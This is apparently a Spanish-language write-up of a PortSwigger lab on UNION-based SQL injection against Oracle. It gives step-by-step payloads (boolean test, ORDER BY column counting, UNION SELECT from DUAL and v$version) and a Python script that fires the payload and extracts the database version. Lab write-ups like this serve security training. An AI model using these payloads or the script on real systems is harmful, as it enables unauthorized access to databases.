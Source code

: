 ```yaml
---
title: "07 SQL injection attack, querying the database type and version on Oracle"
collection: publications
category: portswigger
permalink: /publications/07_SQL injection attack, querying the database type and version on Oracle
excerpt: 'Este laboratorio contiene una vulnerabilidad de inyección SQL en el campo de categoría de producto. Para resolver el laboratorio, realizamos un ataque de inyección SQL basado en UNION que consulta el tipo y la versión de la base de datos en Oracle.'
date: 2024-12-01
#venue: 'Journal 1'
#slidesurl: 'http://academicpages.github.io/files/slides1.pdf'
#paperurl: 'http://academicpages.github.io/files/paper1.pdf'
citation: 'SQL injection attack, querying the database type and version on Oracle'
---
```


![logo]({{site.url}}/images/SQLi/sqli-7/logo.png)

## Descripción del laboratorio

![Descripción]({{site.url}}/images/SQLi/sqli-7/descripcion.png)

## Objetivo del laboratorio

Para resolver el laboratorio, visualice la cadena de versión de la base de datos.

## Determinamos que el campo si es vulnerable

```javascript
' or 1=1--
```

![Vulnerable]({{site.url}}/images/SQLi/sqli-7/vulnerable.png)

## Determinar el numero de columnas retornadas por la consulta

Miramos la cantidad decolumnas retornar hasta que arroje error. Vemos que nos arroja 2 columnas.

```javascript
' ORDER BY 1--
' ORDER BY 2--
```

![Order by]({{site.url}}/images/SQLi/sqli-7/order by.png)

## Miramos que columna es de tipo 'String'

Inyectamos en cada una de ellas mirando cual podemos inyectar 'String', en esta ocación que es BD oracle necesitamos llamar a la tabla DUAL

```javascript
' UNION SELECT 'A', NULL FROM DUAL--
' UNION SELECT NULL, 'A' FROM DUAL-- 
' UNION SELECT 'A', 'A' FROM DUAL--
```

![String]({{site.url}}/images/SQLi/sqli-7/campos string.png)

## Miramos la versión de la BD

![Hoja de Trucos](https://portswigger.net/web-security/sql-injection/cheat-sheet)

Ya que sabemos que es una BD de Oracle probamos averiguar la versión de Oracle

![DB version]({{site.url}}/images/SQLi/sqli-7/DB version.png)

```javascript
' UNION SELECT banner, NULL FROM v$version--
```

![version]({{site.url}}/images/SQLi/sqli-7/version.png)

# Resuelto

![Aprobado]({{site.url}}images/SQLi/sqli-7/aprobado.png)

# Codigo Python
```javascript
import requests
import sys
import urllib3
from bs4 import BeautifulSoup
import re
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

proxies = {'http': 'http://127.0.0.1:8080', 'https': 'http://127.0.0.1:8080'}

def exploit_sqli_version(url):
    path = '/filter?category=Pets'
    sql_payload = "' UNION SELECT banner, NULL from v$version--"
    r = requests.get(url + path + sql_payload, verify=False, proxies=proxies)
    res = r.text
    if "Oracle Database" in res:
        print("[+] Found the database version.")
        soup = BeautifulSoup(res, 'html.parser')
        version = soup.find(string=re.compile(r'.*Oracle\sDatabase.*'))
        print("[+] The Oracle database version is: "+ version)
        return True
    return False

if __name__ == "__main__":
    try:
        url = sys.argv[1].strip()
    except IndexError:
        print("[-] Usage: %s <url>" % sys.argv[0])
        print("[-] Example: %s wwww.example.com" % sys.argv[0])
        sys.exit(-1)
    print("[+] Dumping the version of the database...")
    if not exploit_sqli_version(url):
        print("[-] Unable to dump the database version.")
```